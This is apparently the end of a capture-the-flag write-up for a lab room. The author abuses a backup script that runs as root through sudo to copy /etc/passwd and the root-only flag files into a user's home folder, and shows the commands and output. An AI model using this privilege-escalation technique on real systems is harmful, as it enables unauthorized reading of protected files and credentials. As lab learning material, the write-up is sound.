 yash was able to run some backup script as root. I tried the script. It requested a filename, a destination, and a password. I tried using it to copy a file to yash's home folder and it worked. 

```
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /etc/passwd
Enter destination: /home/yash
Enter Password: 123
yash@safezone:~$ ls -la
total 52
drwx------ 6 yash yash 4096 Jul 17 01:22 .
drwxr-xr-x 4 root root 4096 Jan 29 12:30 ..
-rw------- 1 yash yash    5 Mar 29 05:13 .bash_history
-rw-r--r-- 1 yash yash  220 Jan 29 09:08 .bash_logout
-rw-r--r-- 1 yash yash 3771 Jan 29 09:08 .bashrc
drwx------ 2 yash yash 4096 Jan 29 09:17 .cache
-rw-rw-r-- 1 yash yash   38 Jan 30 15:24 flag.txt
drwx------ 3 yash yash 4096 Jan 29 09:17 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 29 22:16 .local
-rw-r--r-- 1 root root 1658 Jul 17 01:22 passwd
-rw-r--r-- 1 yash yash  807 Jan 29 09:08 .profile
drwx------ 2 yash yash 4096 Jul 17 01:15 .ssh
-rw------- 1 yash yash  733 Jul 17 01:17 .viminfo

yash@safezone:~$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Since it ran as root, I used it to copy the flag.
```
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/flag.txt 
Enter destination: /home/yash
Enter Password: 111

yash@safezone:~$ ls -ltr
total 8
-rw-rw-r-- 1 yash yash   38 Jan 30 15:24 flag.txt
-rw-r--r-- 1 root root 1658 Jul 17 01:22 passwd

yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash
Enter Password: 111

yash@safezone:~$ ls -ltrh
total 12K
-rw-rw-r-- 1 yash yash   38 Jan 30 15:24 flag.txt
-rw-r--r-- 1 root root 1.7K Jul 17 01:22 passwd
-rw-r--r-- 1 root root   38 Jul 17 01:24 root.txt

yash@safezone:~$ cat root.txt 
REDACTED
```

This room took me a long time to complete. I got stuck a few times, but I had lots of fun doing it.